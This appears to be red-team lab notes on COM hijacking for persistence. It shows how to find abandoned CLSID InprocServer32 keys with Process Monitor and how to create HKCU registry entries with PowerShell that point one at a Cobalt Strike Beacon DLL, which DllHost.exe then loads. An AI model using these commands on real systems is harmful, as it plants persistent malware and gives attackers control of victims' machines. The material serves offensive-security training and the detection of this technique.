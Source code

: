 Instead of hijacking COM objects that are in-use and breaking applications that rely on them, a safer strategy is to find instances of applications trying to load objects that don't actually exist (so-called "abandoned" keys).

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) is part of the excellent [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite). It shows real-time file system, registry and process activity and is very useful in finding different types of privilege escalation primitives. Launch **procmon64.exe** on **Attacker Windows**.

Due to the sheer number of events generated, filtering is essential to find the ones of interest. We're looking for:

-   **RegOpenKey** operations.
-   where the _Result_ is **NAME NOT FOUND**.
-   and the _Path_ ends with **InprocServer32**.

![alt text](file:///android_asset/20220831120103.png)

To speed the collection up you click random things, go into the Windows menu, launch applications etc. After just a few minutes, I have over 5,000 events - most of them from Explorer, some from 3rd party software and others from OS components.

![alt text](file:///android_asset/20220831120111.png)

One aspect to look out for is the number of times a particular CLSID is loaded. If you hijack one that is loaded every couple of seconds you're going to have a rough time - so it's well worth the additional effort to find one that's loaded semi-frequently but not so much so, or loaded when a commonly-used application (Word, Excel, Outlook etc) is opened.

Scrolling through, I picked out this CLSID being loaded by **C:\\Windows\\system32\\DllHost.exe**

```
HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32
```

We can use some quick PowerShell to show that the entry does exist in HKLM, but not in HKCU.

```powershell
PS C:\> Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment


PS C:\> Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32' because it does not exist.
```

To exploit this, we can create the necessary registry entries in HKCU and point them at a Beacon DLL.

```powershell
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
PS C:\> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

To generate the DLL, go to **Attacks > Packages > Windows Executable (S)** and select **Windows DLL** as the output type. Then upload the DLL to the location we specified in the registry entry above.
```shell
beacon> cd C:\
beacon> upload C:\Payloads\beacon.dll
```

When **DllHost.exe** loads this COM entry, we get a Beacon.